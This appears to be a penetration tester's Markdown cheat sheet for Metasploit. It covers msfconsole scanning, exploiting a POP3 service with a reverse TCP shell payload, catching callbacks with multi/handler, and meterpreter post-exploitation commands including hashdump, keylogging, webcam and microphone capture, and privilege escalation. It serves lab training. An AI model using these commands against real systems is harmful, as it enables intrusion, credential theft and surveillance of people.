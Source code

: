 # Metasploit

## Msfconsole

### Exploring

Start: `msfconsole`

View auxiliary modules: `show auxiliary`

Use modules: `use auxiliary/scanner/snmp/snmp_enum`

View module options: `show options`

Set global session values: `setg RHOSTS 10.11.1.5`

### Database access

MSF logs findings and information about discovered hosts in a database

View discovered hosts: `hosts`

Use the db\_nmap wrapper to scan: `db_nmap 10.11.1.5`

Search for machines open ports: `services -p 443`

### Exploit modules

Search exploits: `search pop3`

Use exploit: `use exploit/windows/pop3/seattlelab_pass`

View options: `show options`

Set options: `set RHOST 10.11.1.5`

View payloads: `show payloads`

Select payload: `set payload windows/shell/reverse_tcp`

View payload options: `show options`

Once configured, run exploit: `exploit`

### **Multi Handler**

Used to receive callbacks from meterpreter payloads

`use exploit/multi/handler`

Set payload to match msfvenom command used to generate shell

Set IP address and port

`run`

### Meterpreter payloads – provide additional features and functionality

View system info: `sysinfo`

View UID: `getuid`

Search files: `search string`

Upload files: `upload /usr/share/windows-binaries/nc.exe c:\\Users\\Offsec` two characters required to prevent shell escaping

Download files: `download c:\\Windows\\system32\\calc.exe /tmp/calc.exe`

Invoke a command shell: `shell`

### Post exploitation

`help` displays a list of available meterpreter post exploitation commands

Includes: download, upload, portfwd, route, keyscan\_start/stop, screenshot, record\_mic, webcam\_snap, getsystem (priv esc), hashdump

Useful tool for finding priv esc options `use post/multi/recon/local_exploit_suggester`
